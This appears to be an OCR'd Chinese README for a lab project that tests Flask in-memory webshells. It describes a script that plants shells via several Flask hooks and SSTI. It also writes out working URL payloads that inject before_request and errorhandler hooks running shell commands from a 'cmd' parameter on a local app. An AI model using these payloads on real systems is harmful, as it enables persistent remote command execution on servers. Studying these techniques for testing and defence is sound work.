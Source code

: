`test_memory_shell.py`脚本可自动植入和测试各种内存马：

```bash
# 测试所有类型的内存马
python test_memory_shell.py

# 只测试特定类型的内存马
python test_memory_shell.py --method before  # before_request内存马
python test_memory_shell.py --method after   # after_request内存马
python test_memory_shell.py --method error   # errorhandler内存马
python test_memory_shell.py --method ssti    # 通过SSTI植入内存马
python test_memory_shell.py --method url_rule # 通过add_url_rule植入内存马
```

## 内存马测试方法

### 方法一：使用测试脚本

直接运行`test_memory_shell.py`测试所有内存马：

```bash
python test_memory_shell.py
```

### 方法二：手动测试

#### 1. 植入before_request内存马

访问以下URL：

```
http://127.0.0.1:5000/e?cmd=app.before_request_funcs.setdefault(None,[]).append(lambda:__import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read())if request.args.get('cmd')else None)
```

验证内存马：

```
http://127.0.0.1:5000/?cmd=whoami
```

#### 2. 植入errorhandler内存马

访问以下URL：

```
http://127.0.0.1:5000/e?cmd=exec("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd')).read()")
```

验证内存马：

```
http://127.0.0.1:5000/nonexistent?cmd=whoami
```
